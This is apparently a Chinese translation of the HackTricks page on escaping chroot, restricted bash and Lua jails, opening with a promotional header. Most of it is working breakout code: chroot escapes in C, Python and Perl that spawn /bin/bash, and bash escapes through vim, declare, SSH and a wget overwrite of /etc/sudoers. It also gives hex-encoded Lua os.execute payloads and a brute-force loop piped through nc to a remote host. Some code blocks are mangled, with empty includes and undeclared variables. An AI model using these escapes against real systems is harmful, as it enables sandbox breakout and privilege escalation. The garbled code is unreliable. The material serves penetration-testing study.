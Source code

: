 # Escaping from Jails

<details>

<summary><strong>从零开始学习AWS黑客攻击直至成为专家，通过</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您想在**HackTricks中看到您的公司广告**或**下载HackTricks的PDF版本**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方PEASS & HackTricks商品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFTs系列**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram群组**](https://t.me/peass) 或在**Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>

## **GTFOBins**

**在** [**https://gtfobins.github.io/**](https://gtfobins.github.io) **搜索是否可以执行任何具有"Shell"属性的二进制文件**

## Chroot逃逸

来自[wikipedia](https://en.wikipedia.org/wiki/Chroot#Limitations)：Chroot机制**不旨在防御**有意篡改的**特权**（**root**）**用户**。在大多数系统上，chroot上下文不能正确堆叠，具有足够权限的chroot程序**可以执行第二次chroot以逃脱**。\
通常这意味着要逃脱，你需要在chroot内部成为root。

{% hint style="success" %}
**工具** [**chw00t**](https://github.com/earthquake/chw00t) 被创建来滥用以下场景并从`chroot`中逃脱。
{% endhint %}

### Root + CWD

{% hint style="warning" %}
如果你在chroot内部是**root**，你**可以逃脱**创建**另一个chroot**。这是因为在Linux中，两个chroots不能共存，所以如果你创建一个文件夹，然后在这个新文件夹上**创建一个新的chroot**，并且**你在它外面**，你现在将会**在新chroot的外面**，因此你将会在文件系统中。

这是因为通常chroot**不会**将你的工作目录移动到指定的目录，所以你可以创建一个chroot但在外面。
{% endhint %}

通常你不会在chroot监狱内找到`chroot`二进制文件，但你**可以编译、上传并执行**一个二进制文件：

<details>

<summary>C: break_chroot.c</summary>

\`\`\`c #include #include #include

//gcc break\_chroot.c -o break\_chroot

int main(void) { mkdir("chroot-dir", 0755); chroot("chroot-dir"); for(int i = 0; i < 1000; i++) { chdir(".."); } chroot("."); system("/bin/bash"); }

````
</details>

<details>

<summary>Python</summary>
```python
#!/usr/bin/python
import os
os.mkdir("chroot-dir")
os.chroot("chroot-dir")
for i in range(1000):
os.chdir("..")
os.chroot(".")
os.system("/bin/bash")
````



\`\`\`perl #!/usr/bin/perl mkdir "chroot-dir"; chroot "chroot-dir"; foreach my $i (0..1000) { chdir ".." } chroot "."; system("/bin/bash"); \`\`\`

</details>

### Root + 已保存的文件描述符

{% hint style="warning" %}
这种情况与前一个案例类似，但在这种情况下，**攻击者存储了一个指向当前目录的文件描述符**，然后**在新文件夹中创建chroot**。最后，由于他可以**访问**那个**FD**，并且该FD位于chroot**之外**，他访问它并且**逃逸**。
{% endhint %}

<details>

<summary>C: break_chroot.c</summary>

\`\`\`c #include #include #include

//gcc break\_chroot.c -o break\_chroot

int main(void) { mkdir("tmpdir", 0755); dir\_fd = open(".", O\_RDONLY); if(chroot("tmpdir")){ perror("chroot"); } fchdir(dir\_fd); close(dir\_fd); for(x = 0; x < 1000; x++) chdir(".."); chroot("."); }

````
</details>

### Root + Fork + UDS (Unix Domain Sockets)

<div data-gb-custom-block data-tag="hint" data-style='warning'>

FD 可以通过 Unix Domain Sockets 传递，因此：

* 创建子进程 (fork)
* 创建 UDS 以便父子进程通信
* 在子进程中运行 chroot 到不同文件夹
* 在父进程中创建一个 FD，指向子进程 chroot 外的文件夹
* 通过 UDS 将该 FD 传递给子进程
* 子进程 chdir 到该 FD，由于它位于其 chroot 外部，它将逃离监狱

</div>

### Root + Mount

<div data-gb-custom-block data-tag="hint" data-style='warning'>

* 将根设备 (/) 挂载到 chroot 内部的目录中
* Chroot 进入该目录

这在 Linux 中是可能的

</div>

### Root + /proc

<div data-gb-custom-block data-tag="hint" data-style='warning'>

* 将 procfs 挂载到 chroot 内部的目录中（如果尚未挂载）
* 寻找具有不同 root/cwd 条目的 pid，例如：/proc/1/root
* Chroot 进入该条目

</div>

### Root(?) + Fork

<div data-gb-custom-block data-tag="hint" data-style='warning'>

* 创建 Fork（子进程）并 chroot 进入文件系统更深层的不同文件夹，并在其中 CD
* 从父进程中，将子进程所在的文件夹移动到子进程 chroot 之前的文件夹
* 这个子进程将发现自己在 chroot 外部

</div>

### ptrace

<div data-gb-custom-block data-tag="hint" data-style='warning'>

* 过去用户可以从其自身的进程中调试自己的进程... 但这默认不再可能
* 无论如何，如果可能，你可以 ptrace 进入一个进程并在其中执行 shellcode（[参见此示例](linux-capabilities.md#cap_sys_ptrace)）。

</div>

## Bash 监狱

### 枚举

获取关于监狱的信息：
```bash
echo $SHELL
echo $PATH
env
export
pwd
````

#### 修改 PATH

检查是否可以修改 PATH 环境变量

```bash
echo $PATH #See the path of the executables that you can use
PATH=/usr/local/sbin:/usr/sbin:/sbin:/usr/local/bin:/usr/bin:/bin #Try to change the path
echo /home/* #List directory
```

#### 使用 vim

```bash
:set shell=/bin/sh
:shell
```

#### 创建脚本

检查是否可以创建一个内容为 _/bin/bash_ 的可执行文件

```bash
red /bin/bash
> w wx/path #Write /bin/bash in a writable and executable path
```

#### 通过 SSH 获取 bash

如果您通过 ssh 访问，可以使用这个技巧来执行一个 bash shell：

```bash
ssh -t user@<IP> bash # Get directly an interactive shell
ssh user@<IP> -t "bash --noprofile -i"
ssh user@<IP> -t "() { :; }; sh -i "
```

#### 声明

```bash
declare -n PATH; export PATH=/bin;bash -i

BASH_CMDS[shell]=/bin/bash;shell -i
```

#### Wget

你可以覆盖例如sudoers文件

```bash
wget http://127.0.0.1:8080/sudoers -O /etc/sudoers
```

#### 其他技巧

以下页面包含了关于逃离受限Linux shell的技巧：

[**https://fireshellsecurity.team/restricted-linux-shell-escaping-techniques/**](https://fireshellsecurity.team/restricted-linux-shell-escaping-techniques/)\
[https://pen-testing.sans.org/blog/2012/06/06/escaping-restricted-linux-shells](https://pen-testing.sans.org/blog/2012/06/06/escaping-restricted-linux-shells)\
[https://gtfobins.github.io](https://gtfobins.github.io)\
**以下页面也可能有趣：**

### Python 监狱

关于逃离Python监狱的技巧，请参阅以下页面：

### Lua 监狱

在此页面中，你可以找到在Lua中可以访问的全局函数：[https://www.gammon.com.au/scripts/doc.php?general=lua\_base](https://www.gammon.com.au/scripts/doc.php?general=lua\_base)

**使用命令执行的Eval：**

```bash
load(string.char(0x6f,0x73,0x2e,0x65,0x78,0x65,0x63,0x75,0x74,0x65,0x28,0x27,0x6c,0x73,0x27,0x29))()
```

一些**不使用点调用库函数**的技巧：

```bash
print(string.char(0x41, 0x42))
print(rawget(string, "char")(0x41, 0x42))
```

列举库的函数：

```bash
for k,v in pairs(string) do print(k,v) end
```

请注意，每次在**不同的lua环境中执行前面的单行命令时，函数的顺序都会改变**。因此，如果您需要执行一个特定的函数，您可以通过加载不同的lua环境并调用库的第一个函数来执行暴力破解攻击：

```bash
#In this scenario you could BF the victim that is generating a new lua environment
#for every interaction with the following line and when you are lucky
#the char function is going to be executed
for k,chr in pairs(string) do print(chr(0x6f,0x73,0x2e,0x65,0x78)) end

#This attack from a CTF can be used to try to chain the function execute from "os" library
#and "char" from string library, and the use both to execute a command
for i in seq 1000; do echo "for k1,chr in pairs(string) do for k2,exec in pairs(os) do print(k1,k2) print(exec(chr(0x6f,0x73,0x2e,0x65,0x78,0x65,0x63,0x75,0x74,0x65,0x28,0x27,0x6c,0x73,0x27,0x29))) break end break end" | nc 10.10.10.10 10006 | grep -A5 "Code: char"; done
```

**获取交互式lua shell**：如果你处于一个受限的lua shell中，你可以通过以下方式调用来获取一个新的lua shell（希望是无限制的）：

```bash
debug.debug()
```

### 参考资料

* [https://www.youtube.com/watch?v=UO618TeyCWo](https://www.youtube.com/watch?v=UO618TeyCWo) (幻灯片: [https://deepsec.net/docs/Slides/2015/Chw00t\_How\_To\_Break%20Out\_from\_Various\_Chroot\_Solutions\_-\_Bucsay\_Balazs.pdf](https://deepsec.net/docs/Slides/2015/Chw00t\_How\_To\_Break%20Out\_from\_Various\_Chroot\_Solutions\_-\_Bucsay\_Balazs.pdf))



</details>
